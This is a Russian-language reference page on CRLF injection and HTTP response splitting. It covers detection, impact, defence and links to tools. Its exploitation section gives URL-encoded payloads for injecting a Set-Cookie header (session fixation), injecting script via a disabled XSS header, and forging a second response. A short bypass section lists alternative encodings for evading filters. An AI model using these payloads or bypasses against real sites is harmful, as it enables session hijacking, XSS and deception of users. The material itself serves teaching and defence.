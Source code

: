 

# уязвимость/атака

## Описание
Атака представляет из себя модификацию заголовков ответа возвращаемого пользователю путем вставки символов переноса строки (CR LF). Она эксплуатирует недостаток валидации данных, полученных от пользователя.


## Классификация
- Добавление своего заголовка
- **HTTP Response Splitting** - разделение ответа сервера на 2

## Условия
- ОС: любая
- Сервер: любой
- При определенных условиях в заголовках ответа встречаются данные, полученные от пользователя (Чаще всего в заголовках `Location` и `Set-Cookie`).
## Детектирование
- Для выявления необходимо исследовать заголовки ответов сервера.
- При обнаружении информации, похожей на пользовательский ввод в него подставляются символы переноса строки (`%0D%0A` в URL-кодировке) и отслеживаются изменения заголовков.

## Эксплуатация
Пример уязвимого эндпоинта: При переходе на `http://vulnerable?redirect=location`ответ выглядит следующим образом:
```http
...
Location: location
...
```
1) При передачи параметра `location=example.com%0d%0aSet-Cookie: Session_id=some_value` будет возвращено:
```http
...
Location: example.com
Set-Cookie: Session_id=some_value
...
```
В результате этого произойдет установка известной сессии.
2) При передачи параметра `location=example.com%0d%0aX-XSS-Protection:0%%0d%0a%0d%0a<script>some_code</script>` будет возвращено:
```http
...
Location: example.com
X-XSS-Protection:0

<script>some_code</script>
...
```
В этом случае переданный JavaScript код попадет в тело ответа и будет выполнен
3) Есть возможность добавить добавить еще один ответ от сервера (при условии возможности инициировать несколько запросов пользователя). Например передав `location=example.com%0D%0A%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0A%0D%0A%3Chtml_code%3E` будет возвращено:
```http
...
Location: example.com


HTTP/1.1 200 OK
Content-Type: text/html

<html_code>
...
```
Браузер пользователя распознает это как 2 http ответа и на 2 запрос отобразит переданный код.
### Инструменты
- [Wapiti](http://wapiti.sourceforge.net/)
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Ущерб
Возможна следующая эксплуатация данной уязвимости:
- Установка произвольных кук пользователю, в том числе фиксация сессии.
- Возможность применения XSS.
- Отображение произвольной информации пользователю и введение его в заблуждение.
- Возможность Cross-User атак.

## Защита
Фильтрация пользовательской информации, которая может попасть в заголовки.

## Обход защиты
- Использование различных кодировок:
	- ACII: `0x0D0x0A`
	- UTF8: `%E5%98%8D%E5%98%8A`